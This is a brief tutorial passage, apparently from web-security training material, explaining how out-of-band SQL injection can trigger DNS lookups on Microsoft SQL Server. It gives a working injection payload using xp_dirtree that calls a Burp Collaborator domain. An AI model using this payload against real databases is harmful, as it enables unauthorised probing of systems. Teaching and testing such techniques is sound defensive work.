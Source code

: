 The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

``'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--``

This will cause the database to perform a lookup for the following domain:

``0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net``

You can use Burp Suite's Collaborator client to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.
